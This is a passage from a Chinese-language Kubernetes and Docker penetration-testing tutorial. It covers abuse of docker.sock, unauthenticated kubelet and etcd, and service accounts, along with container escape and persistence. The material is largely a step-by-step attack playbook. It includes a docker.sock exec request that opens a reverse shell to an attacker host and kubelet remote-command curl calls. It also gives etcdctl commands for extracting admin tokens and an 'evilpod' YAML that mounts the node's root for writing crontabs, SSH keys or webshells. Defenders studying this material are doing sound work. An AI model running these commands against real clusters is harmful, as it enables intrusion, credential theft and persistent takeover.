如果我们入侵了一个docker容器，这个docker容器里面有docker.sock(常用路径/var/run/docker.sock)，那么就可以直接利用此文件控制docker daemon。

把上一小节的命令改改就行，加一个—unix-socket参数。

```plain
curl -s --unix-socket /var/run/docker.sock -X POST "http://docker_daemon_ip/containers/{container_id}/exec" -H "Content-Type: application/json" --data-binary '{"Cmd": ["bash", "-c", "bash -i >& /dev/tcp/xxxx/1234 0>&1"]}'

curl -s --unix-socket /var/run/docker.sock -X POST "http://docker_daemon_ip/exec/{id}/start" -H "Content-Type: application/json" --data-binary "{}"
```

一般来说docker.sock是存在于docker daemon服务端的，但如果开发人员想在docker容器里运行docker命令，就需要把宿主机的docker.sock挂载到容器内部了，这就给了我们docker逃逸的可乘之机。

### [kubelet 未授权](#toc_kubelet)

kubelet和kubectl的区别？

kubelet是在Node上用于管理本机Pod的，kubectl是用于管理集群的。kubectl向集群下达指令，Node上的kubelet收到指令后以此来管理本机Pod。

[](https://storage.tttang.com/media/attachment/2022/03/12/134a0e77-8b89-415b-842c-4cbb3b271541.png)

kubelet对应的API端口默认在10250，运行在集群中每台Node上，kubelet 的配置文件在node上的/var/lib/kubelet/config.yaml  
我们重点关注配置文件中的这两个选项：第一个选项用于设置kubelet api能否被匿名访问，第二个选项用于设置kubelet api访问是否需要经过Api server进行授权（这样即使匿名⽤户能够访问也不具备任何权限）。

[](https://storage.tttang.com/media/attachment/2022/03/12/a30672a1-cf3b-4f42-8256-0b754cbad27b.png)

在默认情况下，kubelet配置文件就如上图所示，我们直接访问kubelet对应API端口会显示认证不通过

[](https://storage.tttang.com/media/attachment/2022/03/12/ed0464f2-c2f4-4727-ac51-8efa4451ded1.png)

我们将配置文件中，authentication-anonymous-enabled改为true，authorization-mode改为AlwaysAllow，再使用命令systemctl restart kubelet 重启kubelet，那么就可以实现kubelet未授权访问

[](https://storage.tttang.com/media/attachment/2022/03/12/d4f3e444-9f3d-4158-bd86-84941c374119.png)

```plain
关于authorization-mode还有以下的配置
--authorization-mode=ABAC 基于属性的访问控制（ABAC）模式允许你 使用本地文件配置策略。
--authorization-mode=RBAC 基于角色的访问控制（RBAC）模式允许你使用 Kubernetes API 创建和存储策略。
--authorization-mode=Webhook WebHook 是一种 HTTP 回调模式，允许你使用远程 REST 端点管理鉴权。
--authorization-mode=Node 节点鉴权是一种特殊用途的鉴权模式，专门对 kubelet 发出的 API 请求执行鉴权。
--authorization-mode=AlwaysDeny 该标志阻止所有请求。仅将此标志用于测试。
--authorization-mode=AlwaysAllow 此标志允许所有请求。仅在你不需要 API 请求 的鉴权时才使用此标志。
```

在我们发现kubelet未授权后，可以进行以下操作拿到入口点

#### [执行Pod内命令](#toc_pod)

如果有kubelet未授权，那就可以用以下命令在Pod内执行命令

```plain
curl -XPOST -k https://node_ip:10250/run/<namespace>/<PodName>/<containerName> -d "cmd=command"
```

其中的参数可以从https://node\_ip:10250/pods 中获取

[](https://storage.tttang.com/media/attachment/2022/03/12/5aed9fc9-436e-49f4-84f8-869b34da6076.png)

可以直接回显命令结果，很方便

[](https://storage.tttang.com/media/attachment/2022/03/12/bc477654-631b-4825-ab17-83ac197937fe.png)

#### [获取容器内service account凭据](#toc_service-account)

如果能在Pod内执行命令，那么就可以获取Pod里service account的凭据，使用Pod上的service account凭据可以用来模拟Pod上的服务账户进行操作，具体利用方法见下面的小节。

[](https://storage.tttang.com/media/attachment/2022/03/12/05f8decd-181c-4f2f-823b-68146f484541.png)

### [etcd 未授权](#toc_etcd)

etcd是k8s集群中的数据库组件，默认监听在2379端口，如果2379存在未授权，那么就可以通过etcd查询集群内管理员的token，然后用这个token访问api server接管集群。

etcd有v2和v3两个版本，k8s用的是v3版本，所以我们在访问etcd的时候需要用命令ETCDCTL\_API=3来指定etcd版本。

我们想要利用etcd未授权，需要使用一个工具叫做etcdctl，它是用来管理etcd数据库的，我们可以在github上下载它

[https://github.com/etcd-io/etcd/releases/](https://github.com/etcd-io/etcd/releases/)

"在启动etcd时，如果没有指定 --client-cert-auth 参数打开证书校验，并且没有通过iptables / 防火墙等实施访问控制，etcd的接口和数据就会直接暴露给外部黑客"——爱奇艺安全应急响应中心

复现环境我也懒得搭了，我们就在授权情况下来复现这个洞吧！（

首先，如果我们在没有证书文件的前提下直接访问2375端口，是调用不了etcd应用的,会提示X509证书错误。

```plain
ETCDCTL_API=3 ./etcdctl --endpoints=https://etcd_ip:2375/ get / --prefix --keys-only
```

我们需要将以下文件加入环境变量才能访问（如果有未授权，那么不用带证书都能访问）

```plain
  export ETCDCTL_CERT=/etc/kubernetes/pki/etcd/peer.crt
  export ETCDCTL_CACERT=/etc/kubernetes/pki/etcd/ca.crt
  export ETCDCTL_KEY=/etc/kubernetes/pki/etcd/peer.key
```

#### [查询管理员token](#toc_token)

图片引用自爱奇艺安全应急响应中心

我们可以直接在etcd里查询管理员的token，然后使用该token配合kubectl指令接管集群。

```plain
etcdctl --endpoints=https://etcd_ip:2375/ get / --prefix --keys-only | grep /secrets/
```

[](https://storage.tttang.com/media/attachment/2022/03/12/d876a643-6a23-4c59-b310-00f4fdd19226.png)

如果查询结果有敏感账户，我们便可以去获取他的token

```plain
etdctl --endpoints=https://etcd_ip:2375/ get /registry/secrets/default/admin-token-55712
```

[](https://storage.tttang.com/media/attachment/2022/03/12/f4a6d3dc-4d2f-4305-8aee-0ebca21cc640.png)

拿到token以后，用kubectl接管集群

```plain
kubectl --insecure-skip-tls-verify -s https://master_ip:6443/ --token="xxxxxx" get nodes
```

## [执行](#toc__5)

### [\*目录挂载逃逸](#toc__6)

这个技术是综合了执行、持久化、权限提升的一个攻击方法，为了省事，就放在这里一块说了。

首先，在我们获取了api server控制权后，我们可以创建Pod，并在容Pod内部执行命令。如果我们在创建Pod时，将Node节点的根目录挂载到Pod的某个目录下，由于我们能在Pod内部执行命令，所以我们可以修改挂载到Pod下的Node节点根目录中文件的内容，如果我们写入恶意crontab、web shell、ssh公钥，便可以从Pod逃逸到宿主机Node，获取Node控制权。

具体复现如下

先创建一个恶意Pod

```plain
首先我们创建恶意Pod，可以直接创建Pod，也可以用Deployment创建。
既然提到创建Pod，那么就多提一句：直接创建Pod和用Deployment创建Pod的区别是什么？

Deployment可以更方便的设置Pod的数量，方便Pod水平扩展。
Deployment拥有更加灵活强大的升级、回滚功能,并且支持滚动更新。
使用Deployment升级Pod只需要定义Pod的最终状态，k8s会为你执行必要的操作。

如果创建一个小玩意，那么直接创建Pod就行了，没必要用deployment。
_______________________________________
用Pod创建
apiVersion: v1
kind: Pod
metadata:
  name: evilpod
spec:
  containers:
  - image: nginx
    name: container
    volumeMounts:
    - mountPath: /mnt
      name: test-volume
  volumes:
  - name: test-volume
    hostPath:
      path: /

__________________________________
用deployment创建
apiVersion: apps/v1
kind: Deployment
metadata:
  name: nginx-deployment
  labels:
    app: nginx-test
spec:
  replicas: 1
  selector:
    matchLabels:
      app: nginx
  template:
    metadata:
      labels:
        app: nginx
    spec:
      containers:
      - image: nginx
        name: container
        volumeMounts:
        - mountPath: /mnt
          name: test-volume
      volumes:
      - name: test-volume
        hostPath:
          path: /
```

将以上文本写入到一个yaml文件中，然后执行

```plain
kubectl apply -f xxxxx.yaml
如果是api server未授权打进去的，可能要通过-s参数设置一下api server的ip和地址：kubectl -s http://master_ip:8080 command

这里再多嘴一句 kubectl apply 和 kubectl create 这两个命令的区别
两个命令都可以用于创建pod，apply更倾向于”维护资源“，可以用于更新已有Pod；而create更倾向于”直接创建“，不管三七二十一给我创建就完事了
简而言之，当一个资源已经存在时，用create会报错，而apply不会报错
——————ref:https://stackoverflow.com/questions/47369351/kubectl-apply-vs-kubectl-create
```

恶意容器就创建好了

创建好了后使用命令 kubectl get pods 获取恶意pod的名字

然后使用命令 kubectl exec -it evilpodname /bin/bash 进入pod内部shell，然后向挂载到Pod内部的Node根目录中写入恶意crontab、ssh公钥、webshell即可拿到node的shell。

大致流程一张图表示如下

[](https://storage.tttang.com/media/attachment/2022/03/11/d4b20b14-c752-4cb3-b14f-d53f2e5b3050.png)

### [利用Service Account连接API Server执行指令](#toc_service-accountapi-server)

k8s有两种账户：用户账户和服务账户，用户账户被用于人与集群交互（如管理员管理集群），服务账户用于Pod与集群交互（如Pod调用api server提供的一些API进行一些活动）

如果我们入侵了一台有着高权限服务账户的Pod，我们就可以用它对应的服务账户身份调用api server向集群下达命令。  
pod的serviceaccount信息一般存放于/var/run/secrets/kubernetes.io/serviceaccount/目录下

但是默认的user或者service account并不具备任何权限

这是默认情况下，一个pod使用自身service account(默认为当前命名空间的default账户)去请求api server返回的结果，可以发现是没有权限的。

```plain
$ CA_CERT=/var/run/secrets/kubernetes.io/serviceaccount/ca.crt
$ TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
$ NAMESPACE=$(cat /var/run/secrets/kubernetes.io/serviceaccount/namespace)
$ curl --cacert $CA_CERT -H "Authorization: Bearer $TOKEN" "https://192.168.111.20:6443/version/"

  "kind": "Status",
  "apiVersion": "v1",
  "metadata": {},
  "status": "Failure",
  "message": "version is forbidden: User \"system:serviceaccount:default:default\" cannot list resource \"version\" in API group \"\" at the cluster scope",
  "reason": "Forbidden",
  "details": {
    "kind": "version"
  },
  "code": 403
```

那么我现在创建一个高权限service account 并使其与一个Pod相关联，来复现一下这个攻击手法

首先创建一个高权限service account

```plain
kubectl create serviceaccount niubi #创建service account：niubi
kubectl create clusterrolebinding cluster-admin-niubi  --clusterrole=cluster-admin --serviceaccount=default:niubi #把niubi放入集群管理员组，相当于给了它高权限
```

然后将service account与pod相关联

```plain
在创建Pod的yaml文件中的spec项中输入 serviceAccountName: niubi
```

[](https://storage.tttang.com/media/attachment/2022/03/11/6e961ef4-ce5b-43b7-9a57-9171e27f8e7d.png)

再试一下，发现可以调用api server了

[](https://storage.tttang.com/media/attachment/2022/03/11/9b505264-eaf5-43ab-88e6-556230de3988.png)

## [持久化](#toc__7)

这里的持久化是指如何在Pod中持久化、如何在Node中持久化、如何在集群中持久化。  
如何在Node中持久化，在上一小节中已经提到过一些：通过写入crontab，ssh公钥，webshell实现，但个人觉得这几个手段与其说是持久化，不如说是权限提升更符合实际一点，因为这几个手段在实际渗透中都是为了从Pod逃逸出来获取Node权限。

同时，在Pod，Node，Master上做持久化，有大部分方法本质上是“如何在linux机器上做持久化”，而“如何在linux机器上做持久化”方法就太多了，这里就只着重于讲述在“云环境”里独有的持久化方法。

#### [在私有镜像库中植入后门（Pod持久化）](#toc_pod_1)

如果接管了对方的私有镜像库，我们便可以直接在其对象Dockerfile中塞入恶意指令（反弹shell等）  
或者编辑镜像的文件层代码，将镜像中原始的可执行文件或链接库文件替换为精心构造的后门文件之后再次打包成新的镜像。

#### [修改核心组件访问权限（集群持久化）](#toc__8)

包括且不限于 更改配置暴露apiserver 8080端口、暴露docker.sock、暴露未授权etcd、暴露未授权kubelet等修改集群配置文件达到持久化的方法。

#### [shadow api server（集群持久化/cdk工具利用）](#toc_shadow-api-servercdk)

部署一个额外的未授权且不记录日志的api server以供我们进行持久化。

我们可以用github上专门用于k8s渗透的工具cdk（这个工具很屌）来做到这一点

[https://github.com/cdk-team/CDK/wiki/CDK-Home-CN](https://github.com/cdk-team/CDK/wiki/CDK-Home-CN)

[https://github.com/cdk-team/CDK/wiki/Exploit:-k8s-shadow-apiserver](https://github.com/cdk-team/CDK/wiki/Exploit:-k8s-shadow-apiserver)

## [权限提升](#toc__9)

指从pod拿到Node的shell，或者拿到集群控制权。

上面的小节提到过一些，比如kubectl未授权、docker.sock、挂载目录、高权限Service account等方法。

除此之外还有Docker、k8s的一些CVE

Docker逃逸如CVE-2019-5736，CVE-2019-14271,CVE-2020-15257

k8s提权到接管集群的如CVE-2018-1002105,CVE-2020-8558

## [探测](#toc__10)

### [是否在容器环境中](#toc__11)

-   根目录下/.dockerenv 文件存在即docker环境
-   /proc/1/cgroup 内若包含docker或kube字符串则是在docker环境或k8s pod 之中

[](https://storage.tttang.com/media/attachment/2022/03/11/3dbb6be9-b953-4df0-a5f6-daea2463b25f.png)

-   没有常见命令

[](https://storage.tttang.com/media/attachment/2022/03/12/9685f50a-c6e0-4818-bc51-4c95274c478d.png)

-   查看环境变量中是否有k8s或者docker字符串

[](https://storage.tttang.com/media/attachment/2022/03/12/6ec8d202-8838-4528-a3a3-1f16fa9f1815.png)

-   查看端口开放情况（netstat -anp），如果开放了一些特殊端口如6443、8080（api server）,2379（etcd）,10250、10255（kubelet），10256（kube-proxy） 那么可以初步判定为是在k8s环境中的一台Node或者master，这个方法亦可用于端口扫描探测目标主机是否为k8s集群中的机器
-   查看当前网段，k8s中 Flannel网络插件默认使用10.244.0.0/16网络，Calico默认使用192.168.0.0/16网络，如果出现在这些网段中（特别是10.244网段）那么可以初步判断为集群中的一个pod。pod里面没有命令很少，可以通过hostname -I(大写i)来查看ip地址

[](https://storage.tttang.com/media/attachment/2022/03/12/f004929e-8c2e-4c91-b00c-f16727b33eb5.png)

## [0x03 ref](#toc_0x03-ref)

[https://developer.aliyun.com/article/765449#slide-5](https://developer.aliyun.com/article/765449#slide-5)

[https://xz.aliyun.com/t/4276#toc-4](https://xz.aliyun.com/t/4276#toc-4)

[https://tttang.com/archive/1389/](https://tttang.com/archive/1389/)

[https://payloads.online/archivers/2021-07-20/1/](https://payloads.online/archivers/2021-07-20/1/)

[https://www.freebuf.com/articles/database/316788.html](https://www.freebuf.com/articles/database/316788.html)

[https://www.freebuf.com/vuls/196993.html](https://www.freebuf.com/vuls/196993.html)

[https://github.com/pen4uin/cloud-native-security](https://github.com/pen4uin/cloud-native-security)

[https://www.updateweb.cn/zwfec/item-367.html](https://www.updateweb.cn/zwfec/item-367.html)

[https://kuboard.cn/learning/](https://kuboard.cn/learning/)(非常好的中文教程)

[https://kubernetes.io/zh/docs/tutorials/kubernetes-basics/](https://kubernetes.io/zh/docs/tutorials/kubernetes-basics/)(k8s官方教程，有交互式操作界面，稍微有点不好的是有些地方没有中文)
